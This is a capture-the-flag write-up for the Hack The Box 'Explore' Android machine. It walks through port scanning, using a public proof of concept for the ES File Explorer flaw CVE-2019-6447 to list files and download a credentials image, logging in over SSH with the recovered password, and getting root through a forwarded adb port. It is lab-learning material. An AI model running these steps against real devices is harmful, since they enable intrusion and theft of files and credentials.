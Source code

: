 # explore

## nmap

```bash
# Nmap 7.91 scan initiated Mon Jun 28 10:11:48 2021 as: nmap -sV -sC -p- -oA nmap/explore explore.htb
Host: 10.129.174.21 (explore.htb) Status: Up
Host: 10.129.174.21 (explore.htb) Ports: 
2222/open/tcp//ssh//(protocol 2.0)/,
5555/filtered/tcp//freeciv///,
45799/open/tcp//unknown///,
59777/open/tcp//http//Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older/
Ignored State: closed (65531)
# Nmap done at Mon Jun 28 10:13:55 2021 -- 1 IP address (1 host up) scanned in 126.63 seconds

```

There are 4 ports open on host:

- 2222 ssh server
- 5555 common adb port
- 45799 unknown service
- 59777 that is an ES File Explorer

## ES File Explorer

ES File Explorer have a vulnerability that can lead to dump all files in the smartphone [CVE-2019-6447][1]
a POC can be find [here][2]

`python3 poc.py --cmd listFiles --ip 10.129.174.21` will give use the list of all file

```bash
[*] Executing command: listFiles on 10.129.174.21
[*] Server responded with: 200
[
{"name":"lib", "time":"3/25/20 05:12:02 AM", "type":"folder", "size":"12.00 KB (12,288 Bytes)", }, 
{"name":"vndservice_contexts", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"65.00 Bytes (65 Bytes)", }, 
{"name":"vendor_service_contexts", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_seapp_contexts", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_property_contexts", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"392.00 Bytes (392 Bytes)", }, 
{"name":"vendor_hwservice_contexts", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_file_contexts", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"6.92 KB (7,081 Bytes)", }, 
{"name":"vendor", "time":"3/25/20 12:12:33 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"ueventd.rc", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"5.00 KB (5,122 Bytes)", }, 
{"name":"ueventd.android_x86_64.rc", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"464.00 Bytes (464 Bytes)", }, 
{"name":"system", "time":"3/25/20 12:12:31 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"sys", "time":"6/28/21 03:55:57 AM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"storage", "time":"6/28/21 03:56:01 AM", "type":"folder", "size":"80.00 Bytes (80 Bytes)", }, 
{"name":"sepolicy", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"357.18 KB (365,756 Bytes)", }, 
{"name":"sdcard", "time":"4/21/21 02:12:29 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"sbin", "time":"6/28/21 03:55:57 AM", "type":"folder", "size":"140.00 Bytes (140 Bytes)", }, 
{"name":"product", "time":"3/24/20 11:39:17 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"proc", "time":"6/28/21 03:55:57 AM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"plat_service_contexts", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"13.73 KB (14,057 Bytes)", }, 
{"name":"plat_seapp_contexts", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"1.28 KB (1,315 Bytes)", }, 
{"name":"plat_property_contexts", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"6.53 KB (6,687 Bytes)", }, 
{"name":"plat_hwservice_contexts", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"7.04 KB (7,212 Bytes)", }, 
{"name":"plat_file_contexts", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"23.30 KB (23,863 Bytes)", }, 
{"name":"oem", "time":"6/28/21 03:55:57 AM", "type":"folder", "size":"40.00 Bytes (40 Bytes)", }, 
{"name":"odm", "time":"6/28/21 03:55:57 AM", "type":"folder", "size":"220.00 Bytes (220 Bytes)", }, 
{"name":"mnt", "time":"6/28/21 03:55:58 AM", "type":"folder", "size":"240.00 Bytes (240 Bytes)", }, 
{"name":"init.zygote64_32.rc", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"875.00 Bytes (875 Bytes)", }, 
{"name":"init.zygote32.rc", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"511.00 Bytes (511 Bytes)", }, 
{"name":"init.usb.rc", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"5.51 KB (5,646 Bytes)", }, 
{"name":"init.usb.configfs.rc", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"7.51 KB (7,690 Bytes)", }, 
{"name":"init.superuser.rc", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"582.00 Bytes (582 Bytes)", }, 
{"name":"init.rc", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"29.00 KB (29,697 Bytes)", }, 
{"name":"init.environ.rc", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"1.04 KB (1,064 Bytes)", }, 
{"name":"init.android_x86_64.rc", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"3.36 KB (3,439 Bytes)", }, 
{"name":"init", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"2.29 MB (2,401,264 Bytes)", }, 
{"name":"fstab.android_x86_64", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"753.00 Bytes (753 Bytes)", }, 
{"name":"etc", "time":"3/25/20 03:41:52 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"dev", "time":"6/28/21 03:55:59 AM", "type":"folder", "size":"2.64 KB (2,700 Bytes)", }, 
{"name":"default.prop", "time":"6/28/21 03:55:57 AM", "type":"file", "size":"1.09 KB (1,118 Bytes)", }, 
{"name":"data", "time":"3/15/21 04:49:09 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"d", "time":"6/28/21 03:55:57 AM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"config", "time":"6/28/21 03:55:58 AM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"charger", "time":"12/31/69 07:00:00 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"cache", "time":"6/28/21 03:55:58 AM", "type":"folder", "size":"120.00 Bytes (120 Bytes)", }, 
{"name":"bugreports", "time":"12/31/69 07:00:00 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"bin", "time":"3/25/20 12:26:22 AM", "type":"folder", "size":"8.00 KB (8,192 Bytes)", }, 
{"name":"acct", "time":"6/28/21 03:55:57 AM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }
]
```

`python3 poc.py --cmd listPics --ip 10.129.174.21` will give us the list of all pics int the smartphone

```bash
[*] Executing command: listPics on 10.129.174.21
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}
```

Let's steal the `creds.jpg` using `python3 poc.py -g /storage/emulated/0/DCIM/creds.jpg --ip 10.129.174.21`

![creds](images/creds.jpg)

using this creds: ***kristi:Kr1sT!5h@Rp3xPl0r3!*** we can login via ssh and get user flag in sdcard directory.

## Root

User kristi cannot become root using `su` but we can use the `adb shell` ([Android Debug Bridge][3]) to get a root shell. Port 5555 is filtered on device so we need to forward our port to the device to get a connection

`ssh -L 5555:localhost:5555 kristi@explore.htb -p 2222`

then `adb connect localhost:5555` and `adb shell`. Once in the adb shell type `su` and we are root. Now let's find the root flag: `find / -name root.txt 2>/dev/null` -> `/data/root.txt`.

![htbbadge](https://www.hackthebox.eu/badge/image/272787)
![achiv](https://www.hackthebox.eu/storage/achievements/f1e4d0f625f403a3ec49f808722956fc.png)

[//]: #links
[1]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-6447
[2]: https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
[3]: https://developer.android.com/studio/command-line/adb
